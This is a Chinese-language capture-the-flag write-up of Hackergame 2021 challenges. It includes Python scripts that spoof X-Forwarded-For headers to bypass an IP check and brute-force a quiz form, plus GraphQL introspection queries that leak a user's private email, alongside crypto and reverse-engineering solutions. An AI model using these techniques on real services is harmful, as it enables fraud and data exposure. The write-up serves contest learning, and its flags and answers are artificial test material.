




# Hackergame2021 writeup by Kobe972
## 签到
在界面点Next或Prevoius，可以看到浏览器URL多了查询参数?page=xxx，其中xxx为点击Next的次数。直接改变浏览器中的查询参数，当
调到1635000000时正好显示比赛时间。  

## 进制十六——参上
打开题目，发现有如下所示的图片：

根据经验或者后面的英文解释，可以看出左侧实际为右侧的十六进制ASCII编码。解码即可。
## 去吧！追寻自由的电波
打开题目附件，可以听出这是被加速过的音频，可以使用WavePad将其减速。注意，为了使减速后的录音保持清晰，需要对Pitch和Speed同时调整。  

听出的单词为：foxtrot lina alpha golf leftbracket papper hotel oscar november echo tangle india charlle alpha bravo rightbracket，不需要完全听懂，注意识别leftbracket和rightbracket，它们分别为flag的左括号和右括号，其余字母即为各单词的首字母。  
flag{phoneticab}
## 猫咪问答Pro Max
第一问，看看之前的信息安全俱乐部也没有留下什么痕迹，可以从早些年举办的HackerGame入手。首先在UstcLug的Wiki https://lug.ustc.edu.cn/wiki/ 上找到信息安全大赛，可以看到有早年的比赛链接。点进去发现正好是SEC@USTC的网站，点击首页，到https://web.archive.org/web/20181003202552/http://sec.ustc.edu.cn/doku.php/start ，即可看到信息安全俱乐部社团章程，时间为2015年5月4日。  
  
第二问，在lug官网上可以看到有4次，但是最后答案不对，于是进行爆破，得到结果为5次，最后一次是2021年的。  
第三问，直接去图书馆看了，，答案是Development Team of Library，预期解法可以在官方wp上找到。  
第四问，谷歌上搜SIGBOVIK 2021，并下载这一年的杂志，找到有关Newcomb-Benford的文章，可以看到使用了13个数据集。  
第五问，搜Protocol Police，得知这其实是一个恶作剧，查看文档知道举报地址是/dev/null（这是一个文件的黑洞）。  
当时提交上去发现答案错误，于是选择容易枚举的几个问题进行爆破。
```python
import requests
session=requests.Session()
session.get('http://202.38.93.111:10001/?token=32%3AMEUCIQCWT0bKNCoPHAJ9AKui%2Ff2MfjD527ID6dYCi66KnNzyGwIgW9pIE%2B7W7rAvejSR%2FVgsY%2FIA%2F2zkehaV1QW4rmsq0dw%3D')
data={
    'q1':'20150504',
    'q3':'Development Team of Library',
    'q5':'/dev/null'
    }
for q2 in range(0,6):
    for q4 in range(1,30):
        data['q2']=str(q2)
        data['q4']=str(q4)
        if('没有全部' not in session.post('http://202.38.93.111:10001/',data=data).text):
            print('Captured!')
            print(q2)
            print(q4)
```
最终发现第二题答案应该是5而不是4。  
flag{8804d9f3_e509bab597}
## 卖瓜
由题目知道直接称20斤瓜是不可能的。曾尝试给输入或者表单信息赋值为浮点数，或者把post表单的b6改成b1，都没成功。尝试溢出。可以发现将瓜的数量输成一个非常高的值时会溢出，于是本题思路是通过溢出改变瓜的重量模3的余数。  
尝试一下可以知道，当6斤的瓜1e18个，9斤的瓜1e17个时会发生溢出，我们期望最后会出现-1个瓜，这样-1+6+9+6=20。只需要解方程2x+3y=1448914691236517205，容易发现x=y时左右式都被5整除，继续化简即可求出x和y。  
flag{HUAQIANG!HUAQIANG!_8bac858c88}
## 透明的文件
仔细读题，搜索“终端 五颜六色”，可以发现文件是ANSI转义序列。win10的cmd可能不支持运行，需要到github上下载ansi相关插件（如ansicon）。除此之外，可以发现下载的文件少了^[转义序列，需要补上。注意cmd里^[的打法是ctrl+[，而不是直接打这两个字符。为方便起见，编写.cpp文件进行转义字符的输出，再用ansicon打开。
```cpp
#include<iostream>
using namespace std;
int main()
{
	cout << "\033[0;0H\033[20;58H\033[8;34H\033[13;27H\033[4;2H\033[38;2;1;204;177m0\033[39m\033[14;10H\033[20;51H\033[23;"; //后面的省去了
	return 0;
 } 
 ```
执行效果：  

flag{abxnniohkalmcowsayfiglet}
## 旅行照片
关键点是在网上搜蓝色沿海KFC，得知这是秦皇岛的一处经典，旁边是海豚馆，电话可以在美团搜到（不要打题目输入框里的示例电话，这是科大保卫处！！！本人差点就打了）。楼层高度由海平面判断出，为14层；注意前面楼房的太阳能电池，一般会朝南，因此拍摄方向是东南。拍摄时间确实不好找，但可以一个一个试，答案是傍晚。  
## FLAG助力大红包
首先，点两次助力会提示重复的/8地址，说明IP需要前三位不同。一开始试着修改post表单的IP，发现会因为前后端IP不同被检测出。然后用Burpsuite插件伪造IP地址，虽然没成功，但是发现每次后端IP会变成随机一个数。用Wireshark抓包并搜索检测出的后端IP，发现在一个x-forwarded-for的键里面（插件也修改了这个键，但是不知道为什么burpsuite发送数据包前又自己修改了一遍）。于是本题的解决办法是使用python发送包含伪造IP的post请求包给服务器。解题脚本：
```python
import requests
import time

def start(url):
    for i in range(0,256):
        ip=str(i)+'.114.5.14'
        headers={
            'Host':'202.38.93.111:10888',
            'X-Forwarded-For':ip,
            'Origin':'http://202.38.93.111:10888',
        }
        data={
            'ip':ip
        }
        if '成功' not in requests.post(url,headers=headers,data=data).text:
            print(ip,'失败')
        time.sleep(1)
start('http://202.38.93.111:10888/invite/bc78d4f2-a3bd-45ca-ae6e-03c04d4f14be')
```
这道题使用代理池是没用的，需要用完256个/8地址才能完成助力，代理池做不到这一点。
## Amnesia--轻度失忆
.data段存放的是初始化的全局变量和静态变量，.rodata段存放的是常量。只要不把含Hello World的字段存为这两种类型即可。一种方法是使用putchar进行输出，依次输出每个字符。
## 图之上的信息
本题考查的是GraphQL容易泄露敏感信息的漏洞，在谷歌搜“GrapgQL vulnerability”后得知GraphQL存在信息泄露漏洞，百度搜“GraphQL 信息泄露”大概知道怎么获取敏感信息了。  
具体策略：  
第一步，搜索可查询参数。
```
http://202.38.93.111:15001/graphql?query={__schema{types{name,fields{name}}}}
```
结果：
```
{"data":{"__schema":{"types":[{"name":"Query","fields":[{"name":"note"},{"name":"notes"},{"name":"user"}]},{"name":"GNote","fields":[{"name":"id"},{"name":"contents"}]},{"name":"Int","fields":null},{"name":"String","fields":null},{"name":"GUser","fields":[{"name":"id"},{"name":"username"},{"name":"privateEmail"}]},{"name":"Boolean","fields":null},{"name":"__Schema","fields":[{"name":"description"},{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"specifiedByUrl"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"}]},{"name":"__TypeKind","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"isRepeatable"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null}]}}}
```
可以看出privateEmail是我们想要的信息。  
第二步，查询管理员的id（不允许通过username直接查询privateEmail）
```
http://202.38.93.111:15001/graphql?query={user(id:1){name}}
```
得到admin  
第三步，查询邮箱
```
http://202.38.93.111:15001/graphql?query={user(id:1){privateEmail}}
```
结果：
```
得到{"data":{"user":{"privateEmail":"flag{dont_let_graphql_l3ak_data_ead3f64cd6@hackergame.ustc}"}}}
```
fla{dont_let_graphql_l3ak_data_ead3f64cd6@hackergame.ustc}
## Easy RSA
本题关键点是获取p以及逆向获取q，根据源代码提示，要利用生成p的x和y相差较小的性质。进行如下推导：

解题脚本：
```python
import math
import sympy
from Crypto.Util.number import *

e = 65537


def get_p():
    x = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391760451
    y = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391661439
    value_p = sympy.nextprime(pow(math.factorial(x-y-1),x-2,x))
    return value_p


def get_q():
    value = [0,0,0,0,0,0,0,0,0,0]
    value[-1] = 80096058210213458444437404275177554701604739094679033012396452382975889905967
    for i in [8,7,6,5,4,3,2,1,0]:
        value[i]=sympy.prevprime(value[i + 1])
    phi=1
    for i in range(0,10):
        phi*=value[i]-1
    d=inverse(e,phi)%phi
    n = 1
    for i in range(10):
        n = n * value[i]
    value_q=5591130088089053683141520294620171646179623062803708281023766040254675625012293743465254007970358536660934858789388093688621793201658889399155357407224541324547522479617669812322262372851929223461622559971534394847970366311206823328200747893961649255426063204482192349202005330622561575868946656570678176047822163692259375233925446556338917358118222905050574458037965803154233167594946713038301249145097770337253930655681648299249481985768272321820718607757023350742647019762122572886601905212830744868048802864679734428398229280780215896045509020793530842541217790352661324630048261329493088812057300480085895399922301827190211956061083460036781018660201163819104150988531352228650991733072010425499238731811243310625701946882701082178190402011133439065106720309788819
    q = pow(value_q,d,n)
    return sympy.nextprime(q)

p=get_p()
q = get_q()

c = 110644875422336073350488613774418819991169603750711465190260581119043921549811353108399064284589038384540018965816137286856268590507418636799746759551009749004176545414118128330198437101472882906564195341277423007542422286760940374859966152871273887950174522820162832774361714668826122465471705166574184367478
d=inverse(e,(p-1)*(q-1))%((p-1)*(q-1))
m=pow(c,d,p*q)
m=m.to_bytes(28,'big')
m=str(m,encoding='utf-8')
print(m)
```
## 赛博厨房前两问
属于水题，直接贴答案：
```
level1:
0，0
向右 1 步
拿起 1 个物品
向下 1 步
向左 1 步
放下 1 个物品
向右 1 步
向上 1 步
拿起 1 个物品
向下 1 步
向左 1 步
放下 1 个物品

0，1
向右 1 步
拿起 1 个物品
向下 1 步
向左 1 步
放下 1 个物品
向右 2 步
向上 1 步
拿起 1 个物品
向下 1 步
向左 2 步
放下 1 个物品

1，0
向右 2 步
拿起 1 个物品
向下 1 步
向左 2 步
放下 1 个物品
向右 1 步
向上 1 步
拿起 1 个物品
向下 1 步
向左 1 步
放下 1 个物品

1，1
向右 2 步
拿起 1 个物品
向下 1 步
向左 2 步
放下 1 个物品
向右 2 步
向上 1 步
拿起 1 个物品
向下 1 步
向左 2 步
放下 1 个物品

level2:
共146个0
使用条件语句，放完为止
```
## MineCraft
阅读网页源码的这一部分：
```javascript
function printcinput(){
    let content=document.getElementById('spann');
    if (cinput[0]==='M') {
	    if (pressplateList[64].status===false){
		    pressplateList[64].TurnOn_redstone_lamp();
		    pressplateList[64].status=true;
	    }
    }   
	if(cinput.length>=32){
		let tbool=gyflagh(cinput.join(''));
		if(tbool) {
			pressplateList[65].TurnOn_redstone_lamp();
			content.innerText='Congratulations!!!';
			return;
		}
		cinput.length=0;
	}
	content.innerText=cinput.join('');
}
```
可以看出，如果输入的第一个字母是M，则点亮一盏灯；如果输入的串长度达到32并且满足gyflagh判断的条件，则游戏胜利，否则将串清零。  
再看gyflagh:
```
function gyflagh(_0x111955){const _0x50051f=_0x22517d;let _0x3b790d=_0x111955[_0x50051f(0x1a8)](_0x50051f(0x1b7));if(_0x3b790d===_0x50051f(0x1aa))return!![];return![];}
```
这是被混淆过的代码，一些变量被以十六进制这种不易阅读的形式命名。对于函数的临时变量，可以替换为容易理解的名字；对于全局变量，在浏览器的调试界面求它的实际值。比如在浏览器的调试界面输入_0x50051f(0x1a8)，可以看到encrypt，由混淆代码后面的括号可以看出，encrypt为string的一个方法，同时它也是一个函数。再输入'fff'.encrypt可以看到函数源码：
```javascript
function(_0x6a2659){const _0x13519e=_0x22517d,_0x267e12=new Array(0x2),_0x11a961=new Array(0x4);let _0x1bf548='';plaintext=escape(this);for(var _0x485827=0x0;_0x485827<0x4;_0x485827++)_0x11a961[_0x485827]=Str4ToLong(_0x6a2659[_0x13519e(0x1a6)](_0x485827*0x4,(_0x485827+0x1)*0x4));for(_0x485827=0x0;_0x485827<plaintext[_0x13519e(0x1b8)];_0x485827+=0x8){_0x267e12[0x0]=Str4ToLong(plaintext['slice'](_0x485827,_0x485827+0x4)),_0x267e12[0x1]=Str4ToLong(plaintext[_0x13519e(0x1a6)](_0x485827+0x4,_0x485827+0x8)),code(_0x267e12,_0x11a961),_0x1bf548+=LongToBase16(_0x267e12[0x0])+LongToBase16(_0x267e12[0x1]);}return _0x1bf548;}
```
用同样的方法，即可反混淆得到原来的函数：
```javascript
function encrypt(input) //input:'1356853149054377'
{
    const arr1=new Array(2),arr2=new Array(4);
    let result='';
    plaintext=escape(this); //满足预期返回值的条件的plaintext即为密码
    for(var i=0;i<4;i++)
        arr2[i]=Str4ToLong(input['slice'](i*4,(i+1)*4));
    //arr2:[909456177, 825439544, 892352820, 926364468]
    for(i=0;i<plaintext['length'];i+=8)
    {
        arr1[0]=Str4ToLong(plaintext['slice'](i,i+4));
        arr1[1]=Str4ToLong(plaintext['slice'](i+4,i+8));
        code(arr1,arr2);
        result+=LongToBase16(arr1[0])+LongToBase16(arr1[1]);
    }
    return result; //expected:'6fbde674819a59bfa12092565b4ca2a7a11dc670c678681daf4afb6704b82f0c'
//arr1=[1874716276,-2120590913],[-1591700906,1531749031],[-1591884176,-965187555],[-1354040473,79179532]
}

function code(arr1,arr2)
{
    let a=arr1[0],b=arr1[1];
    const inc=(0x52cfb2de+0x4b67c6db),bound=inc*0x20;
    let i=0;
    while(i!=bound)
    {
        a+=(b<<4^b>>>5)+b^i+arr2[i&3];
        i+=inc;
        b+=(a<<0x4^a>>>0x5)+a^i+arr2[i>>>0xb&3];
    }
    arr1[0]=a,arr1[1]=b;
}
```
其中code将arr1，arr2进行了编码，我们可以得到的是编码后的arr1和arr2，为了得到编码前的值，需要再反过来写一个解码函数：
```javascript
function decode(arr1,arr2)
{
    let a=arr1[0],b=arr1[1];
    const inc=(0x52cfb2de+0x4b67c6db);
    let i=inc*0x20;
    while(i>0)
    {
        b-=(a<<0x4^a>>>0x5)+a^i+arr2[i>>>0xb&3];
        i-=inc;
        a-=(b<<4^b>>>5)+b^i+arr2[i&3];
    }
    arr1[0]=a,arr1[1]=b;
}
```
为了获取密码，在调试窗口对arr1的每一组值进行解码得到字符串：
```javascript
decode(arr1,arr2);
LongToStr(arr1[0]);
LongToStr(arr1[1]);
```
将它们拼接起来即可得到flag：  
flag{McWebRE_inMlnCrA1t_3a5y_1cIuop9i}
## p😭q
将下载的gif转回numpy，并将题目的各个过程逆着走一遍即可。
```python
import numpy as np
from PIL import Image, ImageSequence
import librosa 

img = Image.open('flag.gif')
frames = np.array([np.array(frame.copy().convert('RGB').getdata(),dtype=np.uint8).reshape(frame.size[1],frame.size[0],3) for frame in ImageSequence.Iterator(img)]) #将每一个像素的RGB值用中括号包起来变成一个列表
frames=frames[:,1::2,1::2] #按奇偶性隔着取，略掉没有意义的白色间隔
spectrogram=np.array([(frames[i].sum(axis=0)[1::2][:,0]-frames[i].sum(axis=0)[1::2][:,1])/255*2-60 for i in range(0,frames.shape[0])])
spectrogram=librosa.db_to_power(spectrogram.transpose())
origin=librosa.feature.inverse.mel_to_audio(spectrogram) #逆变换
librosa.output.write_wav('origin.wav', origin, 22050, norm=False)
```
得到的origin.wav里有用英文念出来的数字，这就是flag。  
flag{634971243582}
## 超OI的Writeup模拟器——第一关
用IDA将二进制文件反编译，发现程序的流程如下：输入含16个字符的字符串，前八和后八个字符当成int64类型传入一个函数，如果函数判定正确则密码正确。首先将函数里涉及输入参数的处理都用printf打印出来，得到比较简单的执行流程，然后用angr求解。  
解题脚本：
```python
import angr
proj=angr.Project('./0.bin')
state=proj.factory.entry_state()
a3=state.solver.BVS("a3",64)
a4=state.solver.BVS("a4",64)
for i in range(0,16):
    v4 = a3 + ((a4 ^ 0x249410C214101D0) & 0x3DFC12C3F4F5BF2 | 1)
    a3=a4
    a4=v4
a4 = ((0x4D58793A9FB2D441 * a3) ^ 0x5AD787B42BE74394 |\
      (a3 | 0x4D58793A9FB2D441) ^ 0x7D79797BFFBBDED5\
      | (0x51638AD3ECD0AD11 * a4) ^ 0xAF768CBDFBD7AA06\
      | (a4 | 0x51638AD3ECD0AD11) ^ 0x796FBBDFFFF4EDB7)
state.solver.add(a4==0)
state.solver.eval(a3)
state.solver.eval(a4)
```
得到密码为DAjhpGQffnr2z1Vg。  
flag{ESREVER_3c834b54f2f4ade2}